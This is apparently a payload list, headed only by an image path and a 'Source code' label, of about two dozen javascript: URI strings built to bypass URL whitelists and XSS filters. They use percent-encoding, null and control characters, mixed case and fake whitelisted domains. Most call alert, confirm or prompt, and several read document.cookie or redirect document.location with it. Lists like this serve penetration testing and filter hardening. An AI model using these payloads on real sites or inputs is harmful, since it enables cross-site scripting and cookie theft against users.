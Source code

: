 javascript%3Avar%3Daonerror%3D{a%3Aalert}%3Bthrow%2520document.cookie
javascript://anything%0D%0A%0D%0Awindow.alert(document.cookie)
javascript://www.whitelisteddomain.tld%?a0alert%281%29
javascript://%250Alert(document.location=document.cookie)
javascript://https://whitelisted.com/?z=%0Aalert(1)
javascript:%00%0Aava%00%0D%00Acript%00D%0A%0Aconfirm`0`
javascript://js%0Cjavascript%3Aalert(document.domain)
jaVAscript://www.whitelisted.com/%0Aalert(1);//
javascript://whitelisted.com/?a0alert%281%29
x://1//%01javascript:alert(document.cookie)
%09Jav%09ascript:alert(document.domain)
javascript://sub.domain.com/%0Aalert(1)
javascript://%250Alert(1)//?1\
javascript://%0Aalert(1):0
java%0D%0Ascript%0D%0A:alert(0)
java%0D%0Ascript%0D%0A:alert(0)
java%07%07script:prompt`0`
java%09script%07t:prompt`0`
javascript:confirm(1)
javascript:prompt(1)
javascript://%250Alert(1)
%09javascript:alert(1)
%09javascript:alert(1);
%09javascript:alert(1);
%5Cjavascript:alert(1)
%5Cjavascript:alert(1)
javascript://%0Aalert(1)
